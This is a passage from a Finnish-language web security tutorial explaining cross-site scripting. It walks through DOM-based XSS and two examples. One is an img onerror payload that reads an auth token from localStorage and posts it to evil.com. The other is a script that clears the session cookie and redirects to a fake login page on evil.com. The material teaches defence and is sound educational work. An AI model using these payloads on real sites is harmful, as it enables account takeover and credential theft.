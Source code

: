 **Mitä tapahtuu:**
1. URL:n hash-osa luetaan JavaScriptillä
2. Se lisätään suoraan `innerHTML`:ään
3. `<img>` ei lataudu → `onerror` suoritetaan
4. Haitallinen koodi ajetaan

#### Vaarallisuus:
- Hyökkäys tapahtuu **täysin selaimessa**
- Palvelin ei näe hyökkäystä (ei loki-merkintöjä)
- Vaikea havaita ja estää

---

## Käytännön esimerkkejä

### Esimerkki 1: Token-varkaus localStorage:sta

```javascript
// Uhrin sivusto tallentaa tokenin localStorage:een (❌ HUONO)
localStorage.setItem('authToken', 'eyJhbGciOiJIUzI1...');

// Hakkeri syöttää kommentin:
<img src="x" onerror="
  const token = localStorage.getItem('authToken');
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token: token })
  });
">
```

**Mitä tapahtuu:**
1. Kuva ei lataudu (`src="x"`)
2. `onerror`-handler suoritetaan
3. Token luetaan localStorage:sta
4. Token lähetetään hyökkääjän palvelimelle
5. Hyökkääjä voi nyt kirjautua uhrin tilille

---

### Esimerkki 2: Sessio-kaappaus

```javascript
// Hakkeri injektoi:
<script>
  document.cookie = "sessionId=; expires=Thu, 01 Jan 1970 00:00:00 UTC;";
  window.location = 'https://evil.com/login';
</script>
```

**Mitä tapahtuu:**
1. Uhrin istunto-cookie poistetaan
2. Käyttäjä ohjataan väärennölle kirjautumissivulle
3. Käyttäjä syöttää tunnuksensa
4. Hyökkääjä saa käyttäjätunnukset

---